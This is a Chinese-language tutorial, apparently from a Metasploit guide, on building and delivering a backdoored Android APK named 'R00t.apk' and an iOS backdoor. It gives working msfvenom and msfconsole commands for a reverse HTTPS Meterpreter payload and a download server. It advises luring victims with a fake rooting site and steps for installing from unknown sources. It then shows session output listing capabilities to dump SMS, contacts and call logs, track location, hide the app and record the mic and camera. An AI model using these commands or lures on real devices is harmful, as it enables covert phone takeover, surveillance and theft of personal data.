

### 操作方法

- 1. 我们将使用 `msfvenom` 使用 `android/meterpreter/reverse_https` 作为 payload 来创建后门：
- 2. 然后，我们需要使用带有 `-x` 选项的 `msfconsole` 设置监听器，以节省我们一些时间：
- 3. 让用户安装后门通常从向他发送指向提供我们 payload 的自定义网站的链接开始，声称该应用将允许他 root 或解锁手机；因此需要一些社会工程学。在本教程中，我们可以使用 Python 创建一个简单的 HTTP 服务器，以便将后门下载到我们的 Android 机器上：

```
root@kali:~# msfvenom -p android/meterpreter/reverse_https LHOST=192.168.216.5 LPORT=443 R > R00t.apk
No platform was selected, choosing Msf::Module::Platform::Android from the payload
No Arch selected, selecting Arch: dalvik from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 9019 bytes

root@kali:~#
```

```
root@kali:~# msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD android/meterpreter/reverse_https; set LHOST 192.168.216.5; set LPORT 443; run'
```

```
root@kali:~# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80
(http://0.0.0.0:80/) ...
192.168.216.155 - - [29/Dec/2017 09:30:39]
"GET /R00t.apk HTTP/1.1" 200 -
```

- 4. 下载 APK 文件后，用户将收到以下消息：



再次，使用这种类型的攻击向量时，花一些时间创建一个描述所有步骤的网站，以便用户知道他需要从未知来源安装应用，这可以增加入侵目标的几率：



- 5. 在允许未知来源后，您可以安装后门并在目标设备上获得会话：

```
[*] https://192.168.216.5:443 handling request
from 192.168.216.155; (UUID: xsljq7ea)
Staging dalvik payload (69582 bytes) ...
[*] Meterpreter session 1 opened
(192.168.216.5:443 -> 192.168.216.155:33728)
at 2017-12-29 09:32:35 -0500

meterpreter > sysinfo
Computer : localhost
OS : Android 5.1.1 - Linux 4.0.9-android-x86+ (i686)
Meterpreter : dalvik/android
meterpreter >
```

- 6. 除了所有常规的 meterpreter 命令外，使用 Android payload 我们还能获得一些特定命令：

```
meterpreter > help Android
```

# Android 命令

| Command | 描述 |
|---|---|
| activity_start | 从 Uri 字符串启动 Android 活动 |
| check_root | 检查设备是否已 root |
| dump_calllog | 获取通话记录 |
| dump_contacts | 获取联系人列表 |
| dump_sms | 获取短信消息 |
| geolocate | 使用地理定位获取当前经纬度 |
| hide_app_icon | 从启动器中隐藏应用图标 |
| interval_collect | 管理间隔收集功能 |
| send_sms | 从目标会话发送短信 |
| set_audio_mode | 设置铃声模式 |
| sqlite_query | 查询存储中的 SQLite 数据库 |
| wakelock | 启用/禁用 Wakelock |
| wlan_geolocate | 使用 WLAN 信息获取当前经纬度 |

```
meterpreter >
```

- 7. 查看 help 命令的输出，我们可以看到现在可以获取通话记录、读取和发送短信消息以及获取设备位置等。这结合摄像头命令，使我们能够访问设备的几乎所有功能：

```
meterpreter > help webcam
```

# Stdapi: 摄像头命令

| Command | 描述 |
|---|---|
| record_mic | 从默认麦克风录制 X 秒音频 |
| webcam_chat | 启动视频聊天 |


```
webcam_list      List webcams
webcam_snap      Take a snapshot from the specified webcam
webcam_stream    Play a video stream from the specified webcam

meterpreter >
```

## 还有更多...

Metasploit 不仅限于 Android 设备，如果你有一台越狱的 arm64 iOS 设备，你也可以使用 msfvenom 创建后门，使用 apple_ios/aarch64/meterpreter_reverse_tcp 有效载荷，并入侵该设备：

```
root@kali:~# msfvenom -p apple_ios/aarch64/meterpreter_reverse_tcp LHOST=192.168.216.5 LPORT=443 -f macho -o iOS-backdoor
No platform was selected, choosing Msf::Module::Platform::Apple_iOS from the payload
No Arch selected, selecting Arch: aarch64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 692552 bytes
Final size of macho file: 692552 bytes
>Saved as: iOS-backdoor
root@kali:~#
```
